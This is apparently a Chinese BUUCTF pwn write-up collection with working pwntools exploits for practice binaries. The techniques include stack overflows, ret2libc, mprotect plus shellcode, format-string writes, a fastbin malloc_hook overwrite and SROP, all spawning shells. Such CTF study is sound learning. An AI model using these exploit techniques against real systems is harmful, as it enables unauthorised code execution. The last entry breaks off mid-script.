




BUU PWN题（1 40）
BUU-PWN题（1-40）
所有题目来自 buuctf：https://buuoj.cn/challenges
RIP
首先查看一下保护
使用 cyclic 150 创建150个字符
r 运行之后输入，报错停住
x/20s $rsp 查看此时的rsp寄存器中的值，以 s（字符串）的形式查看的 20 个
使用 cyclic -l agaa （注意，后面只用 4 个字符）
只要填充上想要返回的地址就可以了，使用 IDA 打开发现
fun 函数就是bin/sh的功能，所以只要返回到 fun 函数就可以了
在汇编代码里看一下，发现是 401186
所以构造payload如下
from pwn import *
p=process('./pwn1')
payload='a'*23+p64(0x401186)
p.sendline(payload)
p.interactive()

warmup_csaw_2016
IDA 发现后门在 0x40060D，同时程序运行的时候也会输出这个地址
exp：
from pwn import *
p = remote('node3.buuoj.cn',25287)
payload = 'a' * 72 + p64(0x40060d)
p.sendline(payload)
p.interactive()
pwn1_sctf_2016
IDA 看一下
程序会把输入的 I 换成 you，而且只接受输入 32 字节的内容后而栈的大小总共 0x3c 也就是 60 个字节，再加上 ebp 要填充 64 个字节才能覆盖返回地址
#!/usr/bin/env python
# encoding: utf-8
from pwn import *
p=process("./pwn")
elf=ELF("./pwn")
retaddr=elf.symbols['get_flag']
payload="I"*20+"a"*4+p32(retaddr)
p.sendline(payload)
p.interactive()
ciscn_2019_n_1
IDA 打开，发现有个输出 flag 的函数
v2 要等与 11.28125 就能输出 flag

然而可以控制程序直接返回到那个 result = system("cat /flag"); 从而绕过验证
#!/usr/bin/env python
# encoding: utf-8
from pwn import *
p=remote("node3.buuoj.cn",27050)
retaddr=0x4006BE
payload="a"*56+p32(retaddr)
p.sendline(payload)
p.interactive()
还有个思路是找到 11.28125 的值是多少，然后把 v2 给改掉，v2 在 rsp+2c 的地方，所以要填上 2c 的字节占空
#!/usr/bin/env python
# encoding: utf-8
from pwn import *
p=remote("node3.buuoj.cn",27050)
payload = '1' * 0x2c + p64(0x41348000)
p.recv()
p.sendline(payload)
p.interactive()
ciscn_2019_c_1
开启了 NX，另外是一个 64 位程序
运行一下看看，有个加密的功能，但是解密的功能没有
IDA 打开看一下 encrypt 函数
对照一下 ascii 码表
第一个 if 判断的是小写字母，第二个是大写字母，第三个是数字
也就是说如果我们输入的是小写字母就跟 0xD 进行异或
如果输入的是大写字母就跟 0xE 进行异或
如果输入的是数字就跟 0xF 进行异或
我们需要先写一个脚本来对我们输入的内容进行加密，这样再让程序进行异或加密的时候就能正常的输出来了
测出偏移是 88

找一下 pop rdi ret 0x400c83
ret2libc 写 exp
解决：加上个 ret
from pwn import *
from LibcSearcher import *
p = process('./ciscn')
elf = ELF('./ciscn')
main_addr = 0x400B28
pop_rdi = 0x400C83
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
def encrypt(payload):
l = list(payload)
for i in range(len(l)):
if l[i].isdigit():
l[i] = chr(ord(l[i])^0xF)
elif l[i].isupper():
l[i] = chr(ord(l[i])^0xE)
elif l[i].islower():
l[i] = chr(ord(l[i])^0xD)
return ''.join(l)
p.recv()
p.sendline('1')
p.recvuntil('encrypted\n')
payload = 'a'*88 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
payload = encrypt(payload)
p.sendline(payload)
p.recvuntil('Ciphertext\n')
p.recvuntil('\n')
puts_addr = u64(p.recvuntil('\n', drop=True).ljust(8,'\x00'))
log.success('puts_addr = ' + hex(puts_addr))
libc = LibcSearcher('puts',puts_addr)
libcbase = puts_addr - libc.dump('puts')
log.success('libcbase = ' + hex(libcbase))
p.recv()
p.sendline('1')
p.recvuntil('encrypted\n')
sys_addr = libcbase + libc.dump('system')
bin_sh = libcbase + libc.dump('str_bin_sh')
ret = 0x4006b9
payload2 = 'a'*88+p64(ret)+p64(pop_rdi)+p64(bin_sh)+p64(sys_addr)
p.sendline(payload2)
p.interactive()
OGeek2019 babyrop
IDA 打开有一个比较的过程，那我们输入的长度跟一个 s 进行比较，那个 s 是 a1

在往上找找 a1 是在这里，这个 buf 传进去的，buf 又是 /dev/urandom 中的第四位
/dev/urandom 貌似就是些随机的东西
只要我们输入开头是 /x00 把 strlen 截断掉就可以绕过那一个 strncmp 检测
在这个函数中 a1 的值就是上一个函数的返回值 v5
通过这里我们可以把 v5 给覆盖掉
payload = '/x00'+'a'*6+'/xff' 这样就把 v5 覆盖为 /xff 了
然后在这里 buf 的大小跟输入的 /xff 字节，导致溢出：
from pwn import *
from LibcSearcher import *
p=process('./pwn')
elf=ELF('./pwn')
put_plt=elf.plt['put']
put_got=elf.got['put']
main_addr=0x8048825
payload='\x00'+'a'*6+'\xff'
p.sendline(payload)
p.recvuntil('Correct\n')
payload1 = 'a'*0xe7+'a'*4+p32(put_plt)+p32(main_addr)+p32(put_got)
p.sendline(payload1)
put_addr = u32(p.recv(4))
libc=LibcSearcher('puts',put_addr)
libc_base=put_addr-libc.dump('puts')
system_addr=libc_base+libc.dump('system')
bin_sh_addr=libc_base+libc.dump('str_bin_sh')
p.sendline(payload)
p.recvuntil('Correct\n')
payload2='a'*0xe7+'b'*0x4
payload2 += p32(system_addr)*2+p32(bin_sh_addr)
p.sendline(payload2)
p.interactive()
ciscn_2019_en_2
跟 c_1 一样，就是改了一下异或的内容
https://www.yuque.com/hxfqg9/bin/bp97ri#NCs3e
from pwn import *
from LibcSearcher import *
#p = process('./ciscn')
p=remote('node3.buuoj.cn',29694)
elf = ELF('./ciscn')
main_addr = 0x400B28
pop_rdi = 0x400C83
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
def encrypt(payload):
l = list(payload)
for i in range(len(l)):
if l[i].isdigit():
l[i] = chr(ord(l[i])^0xc)
elif l[i].isupper():
l[i] = chr(ord(l[i])^0xd)
elif l[i].islower():
l[i] = chr(ord(l[i])^0xe)
return ''.join(l)
p.recv()
p.sendline('1')
p.recvuntil('encrypted\n')
payload = 'a'*88 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
payload = encrypt(payload)
p.sendline(payload)
p.recvuntil('Ciphertext\n')
p.recvuntil('\n')
puts_addr = u64(p.recvuntil('\n', drop=True).ljust(8,'\x00'))
log.success('puts_addr = ' + hex(puts_addr))
libc = LibcSearcher('puts',puts_addr)
libcbase = puts_addr - libc.dump('puts')
log.success('libcbase = ' + hex(libcbase))
p.recv()
p.sendline('1')
p.recvuntil('encrypted\n')
sys_addr = libcbase + libc.dump('system')
bin_sh = libcbase + libc.dump('str_bin_sh')
ret = 0x4006b9
payload2 = 'a'*88+p64(ret)+p64(pop_rdi)+p64(bin_sh)+p64(sys_addr)
p.sendline(payload2)
p.interactive()
get_started_3dsctf_2016
使用 mprotect 函数修改内存的权限为可读、写、执行，然后往内存中写入自己的 shellcode
mprotect 的原型：
int mprotect(void *addr, size_t len, int prot);
三个参数分别为起始地址、大小、权限
然后因为这个会在栈上面留下三个参数碍事，所以还有找个 pop 三个的来把他的参数从栈上弄走
先看一下修改哪一个段，可以把 0x080ea000 到 0x080ec000 都修改成可以执行的
exp:
# _*_ coding:utf-8 _*_
from pwn import *
elf = ELF('./pwn')
sh = process('./pwn')
#sh = remote('node3.buuoj.cn',27234)
pop3_ret = 0x0809e4c5
mem_addr = 0x080ea000 #可读可写的内存,但不可执行
mem_size = 0x3000 #通过调试出来的值
mem_proc = 0x7 #可代表可读可写可执行
mprotect_addr = elf.symbols['mprotect']
read_addr = elf.symbols['read']
payload_01 = 'A' * 0x38
payload_01 += p32(mprotect_addr)
payload_01 += p32(pop3_ret) #执行完mprotect的返回地址,使esp往下+12
payload_01 += p32(mem_addr) #mprotect函数参数1 修改的内存地址
payload_01 += p32(mem_size) #mprotect函数参数2 修改的内存大小
payload_01 += p32(mem_proc) #mprotect函数参数3 修改的权限
payload_01 += p32(read_addr) #执行完上面pop3_ret后到read函数
payload_01 += p32(pop3_ret) #执行完read后将返回到pop3_ret指令,又继续使esp+12到mem_addr
payload_01 += p32(0) #read函数参数1 ,从输入端读取
payload_01 += p32(mem_addr) #读取到的内容复制到指向的内存里
payload_01 += p32(0x100) #读取大小
payload_01 += p32(mem_addr) #这里就是shellcode了
sh.sendline(payload_01)
payload_sh = asm(shellcraft.sh(),arch = 'i386', os = 'linux')
sh.sendline(payload_sh)#这就是read读入的内容
sh.interactive()
[第五空间2019 决赛]PWN5
32 位程序，格式化字符串漏洞
先检测一下输入的内容在第几位上会被解释成格式化字符串，输出来是第十位
可以通过格式化字符串把之前的随机数写成跟我们输入的 password 一样的都是 0x1
# _*_ coding:utf-8 _*_
from pwn import *
p=remote('node3.buuoj.cn',27320)
#p = process('./pwn')
payload = fmtstr_payload(10,{0x804C044:0x1})
p.recvuntil('name:')
p.sendline(payload)
p.recvuntil('passwd:')
p.sendline("1")
p.interactive()
[BJDCTF 2nd]r2t3有一个长度的检查
这个 v3 是一个无符号数，最大只能 255，如果超过的话就会进行 mod 255
所以可以传入一个总共是 0x105 的，这样他的得到的就是 6 是符合长度限制的，从而绕过 if 的检测
dest 的大小是 0x11h，加上 ebp 的 0x4h，所以需要在前面填充 0x15h
程序中提供了后门 0x804858B
exp
from pwn import *
p=process('pwn')
payload='a'*0x15+p32(0x804858B)
payload+='a'*(0x105-len(payload))
p.sendline(payload)
p.interactive()
ciscn_2019_n_8
开启了 canary，题目代码说的只要 (_QWORD )&var[13] == 17LL 就能拿到 shell
from pwn import *
#p=process('./ciscn')
p=remote('node3.buuoj.cn',29301)
payload=p32(17)*14
p.sendline(payload)
p.interactive()
not_the_same_3dsctf_2016
0x80489A0 把 flag 放在了 bss 段
可以通过再返回到 write 把 flag 给读出来
from pwn import *
p=process('./pwn')
elf=ELF('./pwn')
#p=remote('node3.buuoj.cn',29301)
flag_addr=0x80ECA2D
payload='a'*45+p32(0x80489A0)+p32(elf.sym['write'])+p32(flag_addr)+p32(1)+p32(flag_addr)+p32(42)
p.sendline(payload)
p.interactive()
还有一种方法是使用 mprotect 来改变 bss 段的权限，然后执行 shellcode
先找一个 pop 三个的来平衡 mprotect 的栈，通过这个函数来改掉 bss 所在的那一块的权限为可读写执行
from pwn import *
#p=process('./pwn')
elf=ELF('./pwn')
p=remote('node3.buuoj.cn',28930)
mprotect_addr=elf.sym["mprotect"]
read_plt=elf.sym["read"]
pop_3_ret=0x0809e3e5
pop_ret=0x08048b0b
m_start=0x080ec000
bss= 0x80ECA2D
len=0x2000
prot=7
payload_1="a"*45+p32(mprotect_addr)+p32(pop_3_ret)+p32(m_start)+p32(len)+p32(prot)
payload_1+=p32(read_plt)+p32(bss+0x400)+p32(0)+p32(bss+0x400)+p32(0x100)
p.sendline(payload_1)
payload_2=asm(shellcraft.sh(),arch = 'i386', os = 'linux')
p.sendline(payload_2)
p.interactive()
jarvisoj_level0
from pwn import *
#p=process('./level0')
p=remote('node3.buuoj.cn',27687)
sys_addr=0x400596
payload='a'*136+p64(sys_addr)
p.sendline(payload)
p.interactive()
[BJDCTF 2nd]one_gadget
程序给了 printf 的地址，同时也给了 libc
要 one_gadget，先找一下
from pwn import *
#p=process('./pwn')
p=remote("node3.buuoj.cn",25071)
elf=ELF("./pwn")
libc=ELF('libc-2.29.so')
one_gadget1=[0xe237f,0xe2383,0xe2386,0x106ef8]
addr=int(r.recvline()[23:-1],16)
libc_base=addr-libc.sym['printf']
one_gadget=libc_base+one_gadget1[3]
p.recvuntil("Give me your one gadget:")
p.sendline(str(one_gadget))
p.interactive()
jarvisoj_level2
有 /bin/sh 字符串，有 system 函数，也没有 canary 保护，直接就可以
from pwn import *
#p=process('./level2')
p=remote('node3.buuoj.cn',26462)
sys_addr=0x8048320
binsh_addr=0x804A024
payload='a'*140+p32(sys_addr)+p32(1)+p32(binsh_addr)
p.sendline(payload)
p.interactive()
[HarekazeCTF2019]baby_rop
from pwn import *
p=process('./babyrop')
#p=remote('node3.buuoj.cn',29228)
pop_rdi=0x400683
binsh_addr=0x601048
sys_addr=0x400490
payload='a'*0x18+p64(pop_rdi)+p64(binsh_addr)+p64(sys_addr)
p.sendline(payload)
p.interactive()
~~这题怎么没有 flag 啊~~
有 flag，在 /home/babyrop 文件夹里面
babyheap_0ctf_2017
这道题...babyheap...嗯...嗯？heap？算了跟着 wp 做做看看吧
保护全开，有这么些功能
申请、填充、释放、查看、退出
在填充（fill）的时候，还要求输入你要填充后过多少个字节，但是可以输入比申请的大的数
当一个 chunk 加入到 unsorted bin 中时，chunk 的 fd 和 bk 指针会指向 main_arena。main_arena 是 libc 中的一个结构体。泄露这个地址就可以计算出真实的 libc 地址了
在保护全开的程序中，不好修改 got 表，修改 _malloc_hook 或 free_hook 等等为 one_gadget 地址。再次执行 malloc 的时候就会到 one_gadget 执行
思路：
首先泄漏 libc 的地址
下面我们同样的是使用 fastbin_attack，分配到malloc_hook的区域，然后对这块内存区域修改为one_gadget的地址
exp：
#!/usr/bin/python
# -*- coding: utf-8 -*-
from pwn import *
p = process('./heap')
elf = ELF('./heap')
#首先是定义的一些函数，对应着程序的功能
def alloc(size):
p.recvuntil("Command: ")
p.sendline("1")
p.recvuntil("Size: ")
p.sendline(str(size))
def fill(idx, content):
p.recvuntil("Command: ")
p.sendline("2")
p.recvuntil("Index: ")
p.sendline(str(idx))
p.recvuntil("Size: ")
p.sendline(str(len(content)))
p.recvuntil("Content: ")
p.send(content)
def free(idx):
p.recvuntil("Command: ")
p.sendline("3")
p.recvuntil("Index: ")
p.sendline(str(idx))
def dump(idx):
p.recvuntil("Command: ")
p.sendline("4")
p.recvuntil("Index: ")
p.sendline(str(idx))
p.recvline()
return p.recvline()
def unsorted_offset_arena(idx):
word_bytes = context.word_size / 8
offset = 4 # lock
offset += 4 # flags
offset += word_bytes * 10 # offset fastbin
offset += word_bytes * 2 # top,last_remainder
offset += idx * 2 * word_bytes # idx
offset -= word_bytes * 2 # bin overlap
return offset
#首先申请4个fast chunk和1个small chunk
alloc(0x10)#index0
alloc(0x10)#index1
alloc(0x10)#index2
alloc(0x10)#index3
alloc(0x80)#index4
#free两个,这时候会放到fastbins中,而且因为是后进的,所以
#fastbin[0]->index2->index1->NULL
free(1)
free(2)
#这个时候我们去对index0进行fill操作,他就会把index2的指针的末位改成0x80,也就指向了index4
#解释一下,前面申请了4块0x10的,加上chunk的一些信息,合起来是0x80
#所以把那个末位改成0x80就指向了index4,这样chunk4就被放到了fastbins中
payload = p64(0)*3
payload += p64(0x21)
payload += p64(0)*3
payload += p64(0x21)
payload += p8(0x80)
fill(0, payload)
#然后再通过index3去进行写入,把index4的大小改成0x21
#这么做是因为当申请index4这块内存的时候,他会检查大小是不是fast chunk的范围内
payload = p64(0)*3
payload += p64(0x21)
fill(3, payload)
#改好index4的大小之后去申请两次，这样就把原来的fastbins中的给申请出来了
alloc(0x10)
alloc(0x10)
#申请成功之后index2就指向index4
#为了让index4能够被放到unsortedbins中,要把它的大小改回来
payload = p64(0)*3
payload += p64(0x91)
fill(3, payload)
#再申请一个防止index4与top chunk合并了
alloc(0x80)
#这时候free就会把index4放到unsorted中了
free(4)
#因为index2是指向index4的，所以直接把index2给dump一下就能拿到index4中前一部分的内容了
#main_arena与libc偏移为0x3c4b20(文末有工具算)
#再加上main_arena与unsortedbin的偏移,得到unsortedbins与libc的偏移
unsorted_offset_mainarena=unsorted_offset_arena(5)#这函数还不太明白
unsorted_addr=u64(dump(2)[:8].strip().ljust(8, "\x00"))
libc_base=unsorted_addr-0x3c4b20-unsorted_offset_mainarena
log.info("libc_base: "+hex(libc_base))
#此时因为fastbins中没有了,所以从unsortedbins中找
alloc(0x60)
#index2还是指向index4那个地方我们可以先释放index4
free(4)
#然后修改fd指针,通过index2往index4上写为malloc_hook,这样再次申请的时候会分配到这个地址
#但问题是我们去申请的时候会检查size是不是 fakefd + 8 == 当前fastbin的大小
#这个地址是main_arena-0x40+0xd,具体看后面图片解释
payload = p64(libc_base+0x3c4aed)
fill(2, payload)
#这时候再去申请两个,第一个是给前面free的index4,第二个就会分配到malloc_hook处
alloc(0x60)#index4
alloc(0x60)#index6
#然后往malloc_hook上写one_gadget的地址
payload = p8(0)*3
payload += p64(0)*2
payload += p64(libc_base+0x4526a)
fill(6, payload)
#再申请一下触发one_gadget
alloc(255)
p.interactive()
可以看到是由一些 0x7f 的，如果能够通过错位，使得它就是 size 位的话就能通过检查了，所以才有了 main_arena-0x40+0xd
也就是这样，这时候再去写，先写 p8(0)3 来吧前面错位的纠正过来，然后再写 p64(0)2 来占空，这时候再写 one_gadget 就是到了 malloc_hook 的位置了
计算的工具：
又一次做这道题，分步解释一下，之前的注释都看蒙了
alloc(0x10)#index0
alloc(0x10)#index1
alloc(0x10)#index2
alloc(0x10)#index3
alloc(0x80)#index4
free(1)
free(2)
一开始是申请了一些 0x10 跟 0x80 大小的 chunk，然后 free 了两个，fastbin 是后进先出的所以此时的指针是这样的 fastbin[0]->index2->index1
另外发现它每次操作传入的都是 init_my() 这里来的
可以找一下这个，他保存了每一个 index 的表
payload = p64(0)*3
payload += p64(0x21)
payload += p64(0)*3
payload += p64(0x21)
payload += p8(0x80)
fill(0, payload)
通过编辑 index0，把 index2 的 fd 指针末尾改为 0x80，那此时的指针就是 fastbin[0]->index2->index4
这样就把 index4 放进来 fastbin 的链表中，再去申请的时候就申请到了 0x0000555555757080 这里
payload = p64(0)*3
payload += p64(0x21)
fill(3, payload)
然后通过编辑 index3 把 index4 的 size 给改掉，改为 0x21，因为 malloc 的时候会检查 index4 的 size 是不是 fastbin 的大小范围，再去 malloc 两次，第一次是 index2 第二次就是 index4 了
alloc(0x10)
alloc(0x10)
这个时候那个 index 列表是这样的，此时 index2 与 index4 是指向同一块的，对 index4 跟 index2 的操作是等价的
通过编辑 index3 修改掉 index4 的 size 位，free 的时候就可以获得 unsorted bin 啦，中间 malloc 的那个 0x80 是为了防止与 top chunk 合并
payload = p64(0)*3
payload += p64(0x91)
fill(3, payload)
alloc(0x80)
free(4)
然后通过 dump(2) 获得 unsorted bin 的地址来计算 libc 基址，此时我们的堆布局情况是这样的：
unsorted_addr=u64(dump(2)[:8].strip().ljust(8, "\x00"))
libc_base=unsorted_addr-0x3c4b20-88
再去申请一个的话会从前面 index4 划分出来
然后 free 掉 index4，虽然 index4 是 free 的，但是我们的 index2 也是指向 index4 那块的，所以可以通过编辑 index2 来修改 index4 来达到修改这个 free 掉的 chunk 的目的，那我们修改的内容是 main_arena-0x40+0xd，主要是为了后面能找到一个 0x7f 的 size 位来用
payload = p64(libc_base+0x3c4aed)
fill(2, payload)
然后 malloc 两次就可以 malloc 到上面修改的那个地方，就可以修改 malloc_hook 的地址为 one gadget 了
payload = p8(0)*3
payload += p64(0)*2
payload += p64(libc_base+0x4526a)
fill(6, payload)
这样再去 malloc 的时候就会执行 one_gadget
ciscn_2019_s_3
main里面只有个 vuln() 函数，函数通过系统调用
32 位和 64 位的系统调用有些区别：
32 位：系统调用号放入 eax，参数依次放到 ebx、ecx、edx，返回值放在 eax
64 位：系统调用号放入 rax，参数依次放到 rdi、rsi、rdx，返回值放在 rax
所以上面这两个分别实现了 read(0, rsp+buf, 0x400) 和 write(1, rsp+buf, 0x30)
这个 rsp+buf 实际上是 rsp-0x10
那么程序在输出的时候从 rsp-0x10 开始输出 0x30，这样输出的内容总共是，可以发现在 0x7fffffffdd10 这个地址（距离输出的内容0x20）上输出的前八个字节是栈上的某一个地址，如果用它来跟我们写入的内容去算一下偏移就能够在栈上面写 "/bin/sh" 了
0x7fffffffde08-0x7fffffffdcf0=0x118，也就是说接收了 0x20 之后，在接受 0x8 就是 "/bin/sh" 的地址了
程序还给了一些 gadgets
比如 mov rax,3Bh，他是 execve 的系统调用号
mov rax, 0Fh，他是 sigreturn 的系统调用号（SROP）

srop 解法
#!/usr/bin/python
#coding:utf-8
from pwn import *
context.update(arch='amd64',os='linux',timeout=1)
p=process('./ciscn')
#p=remote('./ciscn')
sigreturn_addr = 0x4004DA
syscall_addr = 0x400517
vuln_addr=0x4004f1
payload = '/bin/sh\x00'.ljust(16,'a')
#buf只有0x10
payload+=p64(vuln_addr)
p.sendline(payload)
p.recv(0x20)
binsh_addr=u64(p.recv(8))-0x118
frameExecve=SigreturnFrame()
frameExecve.rax =constants.SYS_execve
frameExecve.rdi =binsh_addr
frameExecve.rsi =0
frameExecve.rdx =0
frameExecve.rip =syscall_addr
payload ='a'*16
payload+=p64(sigreturn_addr)+p64(syscall_addr)+str(frameExecve)
p.sendline(payload)
p.interactive()
bjdctf_2020_babystack
有个后门：0x4006E6

这是 main 函数，要求先输入一个长度，但是可以看到 buf 那个地方只有 0x10，只要 24 字节后面跟上后门的地址就行了
#!/usr/bin/python
#coding:utf-8
from pwn import *
#p=process('./bjd')
p=remote('node3.buuoj.cn',28431)
sys_addr=0x4006E6
payload='a'*24+p64(sys_addr)
p.recvuntil("Please input the length of your name:")
p.sendline(str(len(payload)))
p.recvuntil("What's u name?")
p.sendline(payload)
p.interactive()
jarvisoj_level2_x64
system 地址：0x4004C0
.bin.sh 字符串地址：0x600A90
pop rdi 地址：0x4006b3
from pwn import *
p=remote('node3.buuoj.cn',27459)
#p=process('./level2')
sys_addr=0x4004C0
binsh=0x600A90
pop_rdi=0x4006b3
payload='a'*0x88+p64(pop_rdi)+p64(binsh)+p64(sys_addr)
p.sendline(payload)
p.interactive()
ciscn_2019_n_5
&name=0x601080
然后程序会先要求输入 0x64 的 name，会放在 bss 段(0x601080)，然后再读取输入内容到 v4 中，这个 v4 只有 0x20，存在栈溢出
计算得到偏移 40
from pwn import *
context(arch='amd64',os='linux')
p=process('ciscn')
payload1=asm(shellcraft.sh())
payload2='a'*40+p64(0x601080)
p.sendlineafter('name',payload1)
p.sendlineafter('me?',payload2)
p.interactive()
[HarekazeCTF2019]baby_rop2
用 printf 来泄露 read 真实地址，然后通过 ret2libc 拿到 shell
from pwn import *
from LibcSearcher import LibcSearcher
#p=process('./babyrop2')
p=remote('node3.buuoj.cn',25002)
elf=ELF('./babyrop2')
read_got=elf.got['read']
printf_plt=elf.plt['printf']
main_addr=elf.sym['main']
format_addr=0x400770
"""
0x000000000040072c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040072e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400730 : pop r14 ; pop r15 ; ret
0x0000000000400732 : pop r15 ; ret
0x000000000040072b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040072f : pop rbp ; pop r14 ; pop r15 ; ret
0x00000000004005a0 : pop rbp ; ret
0x0000000000400733 : pop rdi ; ret
0x0000000000400731 : pop rsi ; pop r15 ; ret
0x000000000040072d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004004d1 : ret
0x0000000000400532 : ret 0x200a
"""
payload='a'*40+p64(0x400733)+p64(format_addr)+p64(0x400731)+p64(read_got)+p64(0)
payload+=p64(printf_plt)+p64(main_addr)
p.sendlineafter("name?",payload)
p.recvuntil('!\n')
read_addr=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
libc=LibcSearcher("read",read_addr)
libc_base=read_addr-libc.dump('read')
sys_addr=libc_base+libc.dump("system")
binsh_addr=libc_base+libc.dump("str_bin_sh")
payload2='a'*40+p64(0x400733)+p64(binsh_addr)+p64(sys_addr)+p64(0)
p.sendline(payload2)
p.interactive()
ciscn_2019_ne_5
没有 /bin/sh 也可以用 sh
要先输入 administrator，进入程序，然后有 system 的 plt，可以拿来用
程序藏了一个 4 功能，这里面有一个 strcpy 函数，存在栈溢出

exp：
from pwn import *
#p=process('./ciscn')
p=remote('node3.buuoj.cn',28611)
binsh_addr=0x80482E6+4
sys_addr=0x80484D0
p.sendlineafter("password:","administrator")
p.sendlineafter(':','1')
payload='a'*0x48+'a'*4+p32(sys_addr)+'a'*4+p32(binsh_addr)
p.sendlineafter('info:',payload)
p.sendlineafter(':','4')
p.interactive()
注意不要用p32(0)，不然的话 strcpy 会截断
pwn2_sctf_2016
首先通过输入一个负的值，绕过长的的检测，负的他会变成一个很大的正数的值
然后通过 printf 泄漏出真实地址拿到 libc 的地址
from pwn import *
from LibcSearcher import *
#p = process('./pwn')
p = remote('node3.buuoj.cn',29130)
elf = ELF('./pwn')
format_str = 0x080486F8
printf_plt = elf.plt['printf']
main_addr = elf.symbols['main']
printf_got = elf.got['printf']
p.recvuntil('read? ')
p.sendline('-1')
p.recvuntil('data!\n')
payload = 'a'*0x30 + p32(printf_plt)+p32(main_addr)+p32(format_str)+p32(printf_got)
p.sendline(payload)
p.recvuntil('said: ')#这是程序正常输出的
p.recvuntil('said: ')#这是printf的那个格式化字符串
printf_addr = u32(p.recv(4))
libc = LibcSearcher('printf', printf_addr)
libc_base = printf_addr - libc.dump('printf')
sys_addr = libc_base + libc.dump('system')
str_bin = libc_base + libc.dump('str_bin_sh')
p.recvuntil('read? ')
p.sendline('-1')
p.recvuntil('data!\n')
p.sendline('a'*0x30 + p32(sys_addr) + p32(main_addr) + p32(str_bin))
p.interactive()
#复制自https://blog.csdn.net/qinying001/article/details/104374305
ez_pz_hackover_2016
要先过了下面那个 if(!result) 才能进入 vuln 函数，所以前面要加上个 crashme
下断点调试一下，看看

计算一下返回地址与 shellcode 位置
所以
from pwn import *
context.arch = 'i386'
#sh = process('ez')
sh = remote('node3.buuoj.cn',27163)
#sh = remote("node3.buuoj.cn",27058)
elf = ELF("./ez")
sh.recvuntil("crash: ")
